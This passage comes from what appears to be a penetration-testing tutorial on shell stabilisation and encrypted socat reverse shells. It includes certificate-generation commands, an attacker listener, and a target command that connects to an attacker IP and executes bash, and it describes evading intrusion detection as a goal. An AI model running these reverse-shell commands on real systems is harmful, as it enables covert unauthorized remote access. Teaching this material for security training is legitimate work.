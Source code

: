 ### 5.4 Setting Terminal Size
For programs like `vim` or `nano`:
- **Attacker**:
  ```bash
  stty -a
  ```
  - **Line-by-Line**:
    - `stty -a`: Displays terminal settings, including `rows` and `cols` (e.g., `rows 24; cols 80`).
- **Shell**:
  ```bash
  stty rows 24
  stty cols 80
  ```
  - **Line-by-Line**:
    - `stty rows 24`: Sets the shell’s terminal rows.
    - `stty cols 80`: Sets the columns.

---

## 6. Encrypted Socat Shells

Encrypted shells use **OPENSSL** to secure communication, evading IDS and preventing eavesdropping.

### 6.1 Generating Certificates
- **Commands**:
  ```bash
  openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
  cat shell.key shell.crt > shell.pem
  ```
  - **Line-by-Line (first command)**:
    - `openssl`: Invokes the OpenSSL tool.
    - `req`: Generates a certificate request.
    - `--newkey rsa:2048`: Creates a new 2048-bit RSA key.
    - `-nodes`: Skips encrypting the private key (no password).
    - `-keyout shell.key`: Saves the private key to `shell.key`.
    - `-x509`: Generates a self-signed certificate.
    - `-days 362`: Sets the certificate validity to 362 days.
    - `-out shell.crt`: Saves the certificate to `shell.crt`.
  - **Line-by-Line (second command)**:
    - `cat shell.key shell.crt`: Concatenates the key and certificate.
    - `> shell.pem`: Saves the combined file as `shell.pem`.
- **Notes**:
  - Certificate info (e.g., country, organization) can be blank or random.
  - The `.pem` file is used by the listener.

### 6.2 Reverse Shell
- **Attacker**:
  ```bash
  socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0 -
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `OPENSSL-LISTEN:443`: Sets up an SSL/TLS listener on port 443.
    - `cert=shell.pem`: Uses the `shell.pem` certificate.
    - `verify=0`: Disables certificate verification (accepts self-signed certs).
    - `-`: Connects to standard input/output.
- **Target (Linux)**:
  ```bash
  socat OPENSSL:10.10.10.5:443,verify=0 EXEC:"bash -li"
  ```
  - **Line-by-Line**:
    - `socat`: Invokes Socat.
    - `OPENSSL:10.10.10.5:443`: Connects to the attacker’s SSL/TLS listener.
    - `verify=0`: Disables certificate verification.